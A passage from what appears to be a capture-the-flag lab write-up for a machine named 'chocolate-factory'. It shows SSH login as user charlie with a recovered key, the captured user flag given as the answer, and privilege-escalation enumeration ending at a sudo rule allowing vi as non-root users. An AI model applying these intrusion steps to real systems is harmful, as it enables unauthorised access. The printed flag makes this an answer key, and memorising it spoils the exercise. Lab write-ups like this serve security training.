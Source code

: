 `teleport.pub`:
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDhp2s9zdSH3xFgOtnwJQEOBYsQ1TJsXrSUyT1hA4ENH6Cm5FbUDMvXYrfn8yLdXC2nQ1LCaVLuFrjL2y/aQ9e/yUU6YuLUVXaGqVA8vD+6ecQXBRsvgoGoF6YgN59XmnEyYKqqC4lciTOSUAhc1iF/EuvxwFL8cmiH/uqYuqsOhc2HBiMHfOCi/tFS2TXkm/XUPQi2zKvnim9iEJCB2iitTuXjYRklrIiiYcqifWOSh93X+hh84HCDPok6U0fWMUmjIhmDY6YSGdKNSW1n2ZLOZDK/czgA5FCjdl4tv7NudInJwQRFo5s+VvR1HLcqg3v2W352H6NKD90z9Nhh7kvj charlie@chocolate-factory
```

We can now use `ssh` to log in as charlie using this stuff:
```shell-session
$ chmod 600 teleport
$ ssh -l charlie -i teleport 10.10.237.255
charlie@chocolate-factory:/$
charlie@chocolate-factory:/$ cd /home/charlie
charlie@chocolate-factory:/home/charlie$ ls
teleport  teleport.pub	user.txt
charlie@chocolate-factory:/home/charlie$ cat user.txt 
flag{cd5509042371b34e4826e4838b522d2e}
```

> Enter the user flag
> 
> Answer: `flag{cd5509042371b34e4826e4838b522d2e}`

## Privilege Escalation

Let's see what charlie can do:
```shell-session
charlie@chocolate-factory:/home/charlie$ uname -a
Linux chocolate-factory 4.15.0-115-generic #116-Ubuntu SMP Wed Aug 26 14:04:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

charlie@chocolate-factory:/home/charlie$ cat /etc/os-release 
NAME="Ubuntu"
VERSION="18.04.5 LTS (Bionic Beaver)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04.5 LTS"
VERSION_ID="18.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic
charlie@chocolate-factory:/home/charlie$ cat /etc/issue      
Ubuntu 18.04.5 LTS \n \l

charlie@chocolate-factory:/home/charlie$ sudo -l
Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
```
